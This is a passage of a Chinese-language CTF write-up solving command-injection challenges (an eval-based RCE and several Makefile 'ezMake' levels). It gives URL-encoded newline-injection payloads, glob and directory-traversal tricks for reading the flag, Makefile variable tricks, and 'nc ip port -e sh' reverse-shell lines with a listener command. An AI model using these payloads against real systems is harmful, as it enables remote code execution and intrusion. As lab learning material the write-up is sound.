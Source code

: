 重点在最下面的eval，前面和后面都有内容来影响命令执行
前面用换行%0a来截断，后面用;+#来注释掉，
实际测试时发现要进行url编码否则绕不过，构造payload：
**cmd=%0a\`$_GET[1]\`;%23&1=c\'\'p /[\@-z][\@-z][@-z]g . （把flag复制到当前目录来，然后访问直接下载flag）**
**cmd=%0a\`$_GET[1]\`;%23&1=nc ip port -e sh; (反弹shell)**


### ezMake

[Makefile 学习笔记之 shell 命令调用及目录处理 - coffee_tea_or_me - 博客园](https://www.cnblogs.com/phillee/p/15020046.html)

command：$(shell cat flag)

### ez?Make

同上多了过滤，目录穿越

cd \.\.&&cd \.\.&&cd \.\.&&more [^e][^e][^e][^e]

[^e]表示除了 e 以外的其他的字符

反弹 shell 也可以

` nc ip port -e sh`

vps 开监听端口即可

`nc -lvnp port`

![](https://s2.loli.net/2024/05/05/FXutQMcLWCV1mHz.png)

### **εZ?¿м@Kε¿?**

> 参考第一名的 wp

[Makefile 中的$@, $^, $< , $?, $%, $+, $*-CSDN 博客](https://blog.csdn.net/dlf1769/article/details/78997967)

在 Makefile 中，大家经常会见到类似$@、$^、$< 这种类型的变量。

这种变量一般称为自动变量，自动变量是局部变量，作用域范围在当前的规则内，它们分别代表不同的含义：

$@：目标

$^：所有目标依赖

$<：目标依赖列表中的第一个依赖

$?：所有目标依赖中被修改过的文件

这里第一个依赖是就是 /flag

利用 shell 变量替换符 $(<file)读文件

`$$(<$<)` 读出/flag

<u>这里两个 $$ 才代表一个 $ </u>

### **ezRCE**
